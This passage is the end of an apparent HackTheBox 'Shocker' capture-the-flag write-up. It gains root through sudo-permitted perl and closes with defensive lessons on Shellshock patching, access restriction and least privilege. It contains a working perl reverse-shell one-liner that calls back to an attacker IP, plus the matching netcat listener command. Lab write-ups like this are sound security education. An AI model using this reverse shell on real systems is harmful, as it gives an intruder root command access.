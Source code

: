 ![](../img/Shocker Writeup wo Metasploit/1_v11VtaF_bxBLav44Ldqwlw.png)

Yikes, I can run perl as root! Well, it’s yay for me and yikes for the system administrator. If I use perl to send a reverse shell back to my machine it will get executed with the same privileges that perl is running in. So if I run perl with sudo privileges, I’ll get back a reverse shell with root privileges.

Go to [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and grab the perl code for a reverse shell. Don’t forget to add sudo at the beginning.

```
sudo perl -e 'use Socket;$i="10.10.14.6";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Before you execute the code, start up a listener on your attack machine with the same configuration as the above code.

```
nc -nlvp 1234
```

Execute the code and we have root!

![](../img/Shocker Writeup wo Metasploit/1_PYbSwujwW-2slcj_OyzJJA.png)

Grab the root flag.

![](../img/Shocker Writeup wo Metasploit/1_9cqlYBxat0eGud-WkxJrdw.png)

# Lessons Learned

I’ve never seen or had to use the “-f” flag with Gobuster, so that was something new that I learned while solving this box. I’ll definitely keep it in mind when I solve future boxes.

As for vulnerabilities, I counted three. The first being a web server insecure misconfiguration. I wasn’t allowed to access the /cgi-bin directory but for some reason I was allowed to access the user.sh file inside of that directory. The administrator should have restricted access to all the files in the directory.

The second vulnerability is that the web server was executing bash commands on a system that was running a version of Bash that was vulnerable to the Shellshock vulnerability. This allowed us to gain initial access to the system. Of course a patch is available and the administrator should have patched his system.

The third vulnerability is insecure system configuration. You should always conform to the principle of least privilege and the concept of separation of privileges. Giving the user sudo access to run perl, allowed me (the attacker) to escalate privileges.

# Conclusion

7 machines down, 34 more to go!

![](../img/Shocker Writeup wo Metasploit/1_xJqjboo8sNFQy2d-g_XdxQ.png)